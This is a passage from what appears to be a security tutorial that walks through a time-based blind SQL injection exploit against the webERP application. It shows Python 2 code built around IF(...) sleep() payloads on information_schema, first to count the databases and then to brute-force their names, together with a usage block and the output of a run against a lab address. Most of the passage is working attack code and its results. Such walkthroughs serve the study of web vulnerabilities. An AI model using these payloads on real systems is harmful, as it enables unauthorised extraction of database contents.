     i=1
    while True:
        
        payload = generatePayload("0", "-13.37' or IF((SELECT COUNT(*) FROM information_schema.SCHEMATA)="+str(i)+", sleep(1),FALSE) or '2'='1")
        
        # SELECT;
        #get cookies
        cookies = getCookies(ip, sys.argv[5], sys.argv[3], sys.argv[4])
        
        addSupplierID("GARUMPAGE", cookies, proxies)
        
        t1 = time.time()
        runExploit(cookies, "GARUMPAGE", payload, proxies)
        t2 = time.time()
    
        if (t2-t1>1):
            print "number of databases on server: " +str(i)
            break
        else:
            i=i+1
Now we execute our modified exploit.

kali@kali:~/Desktop/sqliWebERp$ python sqli_num_of_db.py 192.168.100.72 "weberp/" admin weberp 0
number of databases on server: 3
We have confirmed that there are 3 databases on the server.

Now we will modify our exploit to reveal the names of each database.

def checkForDbName(index, currentDbName):
    payload = generatePayload("0", "-13.37' or IF((SELECT SUBSTRING(SCHEMA_NAME, 1, "+str(len(currentDbName))+")='"+ currentDbName +"' FROM information_schema.SCHEMATA  LIMIT "+ str(index) +", 1 ), sleep(0.05),FALSE) or '2'='1")
                
    
    t1 = time.time()
    runExploit(cookies, "GARUMPAGE", payload, proxies)
    t2 = time.time()

    if (t2-t1>0.5):
        return True
    else:
        return False
    
    

if __name__ == "__main__":
    TOTAL_TIME =time.time()
    #proxies = {'http':'127.0.0.1:8080'}
    proxies = {}
    
    if len(sys.argv) != 6:
        print '(+) usage: %s <target> <path> <login> <password> <order>' % sys.argv[0]
        print '(+) eg: %s 127.0.0.1 "weberp/webERP/" admin weberp 1' % sys.argv[0]
        print 'Order means the number of company on the website. Can be gathered from the login page and usually equals 0 or 1'
        exit()
